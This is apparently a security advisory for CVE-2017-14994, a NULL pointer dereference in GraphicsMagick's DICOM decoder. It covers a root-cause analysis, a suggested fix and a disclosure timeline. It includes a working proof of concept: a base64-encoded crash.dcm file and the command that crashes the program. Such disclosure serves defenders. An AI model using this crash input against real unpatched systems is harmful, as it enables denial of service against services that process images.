 ```yaml
---
title: "GraphicsMagick NULL Pointer Dereference in DICOM Decoder
        (CVE-2017-14994)"
header:
  overlay_image: /assets/images/cve-2017-14994/header.jpg
  overlay_filter: 0.5
  caption: "Photo credit: Life is Strange Stills by Me"
tags:
  - vulnresearch
  - graphicsmagick
  - denial-of-service
---
```


A null pointer dereference vulnerability in the GraphicsMagick DICOM image
decoder allows an attacker to cause a denial-of-service condition or other
unspecified impact.

## Affected Versions

The current release (1.3.26) is affected. Further analysis is required to
determine which versions are also affected by the vulnerability.

## Vulnerability Scores

Classification: CWE-476: NULL Pointer Dereference
CVSSv3: 5.3 (AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:L)

## Description

The null pointer dereference happens in the function `ReadDCMImage` of the file
`coders/dcm.c`. The `Image * image` pointer contains the value `0`. Since the
dereference `image->previous` attempts to access the memory address `0x1a40`
(0x1a40 being the offset of the `previous` field), the program segfaults.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4853   if (status == MagickPass)
4854     {
4855       while (image->previous != (Image *) NULL)
4856         image=image->previous;
4857       CloseBlob(image);
4858       return(image);
4859     }
...
4865 }
```

The `image` pointer is set to null in this call to `DCM_ReadNonNativeImages`.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4686     else if ((dcm.transfer_syntax != DCM_TS_IMPL_LITTLE) &&
4687              (dcm.transfer_syntax != DCM_TS_EXPL_LITTLE) &&
4688              (dcm.transfer_syntax != DCM_TS_EXPL_BIG) &&
4689              (dcm.transfer_syntax != DCM_TS_RLE))
4690       {
4691         status=DCM_ReadNonNativeImages(&image,image_info,&dcm,exception);
4692         dcm.number_scenes=0;
4693       }
...
4865 }
```

This is due to an edge case in the function `DCM_ReadNonNativeImages` from the
file `coders/dcm.c`. If the `dcm->number_scenes` field is 0, the entire for loop
is skipped and the `image` pointer is set to NULL.

```c
4414 static MagickPassFail DCM_ReadNonNativeImages(Image **image,
     const ImageInfo *image_info,DicomStream *dcm,ExceptionInfo *exception)
4415 {
...
4439   image_list=(Image *)NULL;
...
4448   for (scene=0; scene < dcm->number_scenes; scene++)
4449     {
...
4566     }
4567   DestroyImage(*image);
4568   *image=image_list;
4569   return status;
4570 }
```

## Mitigation

A simple fix could be to place a check that `image` is non-null before
dereferencing `image` in the `ReadDCMImage` function.

```c
4603 static Image *ReadDCMImage(const ImageInfo *image_info,ExceptionInfo
     *exception)
4604 {
...
4853   if (status == MagickPass)
4854     {
4855       while (image != (Image *) NULL && image->previous != (Image *) NULL)
4856         image=image->previous;
4857       CloseBlob(image);
4858       return(image);
4859     }
...
4865 }
```

## Proof of Concept

The file `crash.dcm` is attached in this report. It is also included here as a
base64 encoded file.

```
MDAwMFVTAgAwMDAwMDBVUwIAMDAwMDAwVVMCADAwMDAwMFVTAgAwMDAwMDBVUwIAMDAwMDAwVVMC
ADAwMDAwMENTAgAwMCgACAAbAAAAMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMMoAAAAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMAIAAAAwMDAwMDBVSRoAMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwVUk4ADAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAw
MDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwAgAQAFVJFgAxLjIuODQwLjEwMDA4LjEuMi40LjAwMDAw
MFVJHAAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMDAwMFVTAgAwMDAwMDBDUwwAMDAwMDAw
MDAwMDAwMDAwMFVTAgAwMCgAEABVUwIAMDAoABEAVVMCADAwMDAwMFVTAgAwMDAwMDBVUwIAMDAw
MDAwVVMCADAwMDAwMFVTAgAwMDAwMDBDUwIAMDAwMDAwQ1MMADAwMDAwMDAwMDAwMOB/EAAwMDAw
/v8A4A==
```

Running the command `gm identify` on the crash file yields an abort from an
exeception generated by a segmentation fault.

```shell
$ gm identify crash.dcm
gm identify: abort due to signal 11 (SIGSEGV) "Segmentation Fault"...
Aborted (core dumped)
```

The backtrace from the crash:

```
#0  ReadDCMImage (image_info=<optimized out>, exception=<optimized out>) at
                  coders/dcm.c:4855
#1  0x000000000043c47c in ReadImage (image_info=image_info@entry=0x8c8f40,
                  exception=exception@entry=0x7fffffffdc20)
                  at magick/constitute.c:1607
#2  0x000000000043d23e in PingImage (image_info=image_info@entry=0x8c4dd0,
                  exception=exception@entry=0x7fffffffdc20) at
                  magick/constitute.c:1370
#3  0x000000000040d329 in IdentifyImageCommand (image_info=0x8c4dd0, argc=0x2,
                  argv=0x8c6f20, metadata=0x7fffffffdc18,
                  exception=0x7fffffffdc20) at magick/command.c:8379
#4  0x000000000040ec6c in MagickCommand (image_info=image_info@entry=0x8c4dd0,
                  argc=argc@entry=0x2, argv=argv@entry=0x7fffffffe5a0,
                  metadata=metadata@entry=0x7fffffffdc18,
                  exception=exception@entry=0x7fffffffdc20) at
                  magick/command.c:8869
#5  0x000000000040fd15 in GMCommandSingle (argc=0x2, argc@entry=0x3,
                  argv=0x7fffffffe5a0, argv@entry=0x7fffffffe598) at
                  magick/command.c:17396
#6  0x000000000043185c in GMCommand (argc=0x3, argv=0x7fffffffe598) at
                  magick/command.c:17449
#7  0x00007ffff656b830 in __libc_start_main (main=0x409650 <main>, argc=0x3,
                  argv=0x7fffffffe598, init=<optimized out>,
                  fini=<optimized out>, rtld_fini=<optimized out>,
                  stack_end=0x7fffffffe588) at ../csu/libc-start.c:291
#8  0x0000000000409689 in _start ()
```

## Credit

This issue was discovered by Terry Chia (@ayrx) and Jeremy Heng (@nn\_amon).

## Timeline

* 30 Sept 2017 - Discovery of the vulnerability.
* 1 Oct 2017 - [Disclosure](https://sourceforge.net/p/graphicsmagick/bugs/512/)
  of vulnerability to the vendor.
* 1 Oct 2017 - Vulnerability fixed in mercurial
  [commit](http://hg.code.sf.net/p/graphicsmagick/code/rev/b3eca3eaa264).
* 2 Oct 2017 - CVE number requested.
* 3 Oct 2017 - CVE-2017-14994 assigned.
* 3 Oct 2017 - Advisory sent to oss-security mailing list.
